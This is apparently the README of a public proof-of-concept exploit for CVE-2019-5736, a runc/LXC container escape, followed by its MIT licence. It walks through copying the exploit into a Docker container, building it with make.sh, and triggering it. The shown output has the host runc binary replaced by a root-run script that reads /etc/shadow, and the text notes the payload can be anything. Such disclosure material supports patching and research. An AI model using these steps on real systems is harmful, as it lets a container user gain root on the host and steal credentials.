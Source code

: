 ## CVE-2019-5736 ##

This is exploit code for CVE-2019-5736 (and it works for both runc and LXC).
The simplest way to use it is to copy the exploit code into an existing
container, and run `make.sh`. However, you could just as easily create a bad
image and run that.

```console
% docker run --rm --name pwnme -dit ubuntu:18.10 bash
pwnme
% docker cp CVE-2019-5736.tar pwnme:/CVE-2019-5736.tar
```

We need to install `gcc` to build the exploit, and `runc` because we need to
have the shared libraries that `runc` would use. We don't actually use the
`runc` binary itself. For LXC, you would install `lxc` instead of `runc`.

```console
% docker attach pwnme
# apt-get update && apt-get install -y gcc runc
[ snip ]
# tar xf CVE-2019-5736.tar
# ./CVE-2019-5736/make.sh
```

And now, `/bin/bash` in the container will be able to **overwrite the host runc
binary**. Since this binary is often executed by `root`, this allows for
root-level code execution on the host.

```
% docker exec -it pwnme /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...
% cat /usr/sbin/docker-runc
#!/bin/bash
touch /w00t_w00t ; cat /etc/shadow
```

And now if you try to use Docker normally, the malicious script will execute
with root privileges:

```
% docker exec -it pwnme /bin/good_bash
OCI runtime state failed: invalid character 'b' looking for beginning of value: unknown
% file /w00t_w00t
/w00t_w00t: empty
```

And obviously `make.sh` can be modified to make the evil path anything you
like. If you want to get access to the container, use `/bin/good_bash`.

### License ###

```
Copyright (C) 2019 Aleksa Sarai <cyphar@cyphar.com>
Vulnerability discovered by Adam Iwaniuk and Borys Popławski.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to
deal in the Software without restriction, including without limitation the
rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
sell copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

* The above copyright notice and this permission notice shall be included in
  all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
IN THE SOFTWARE.
```
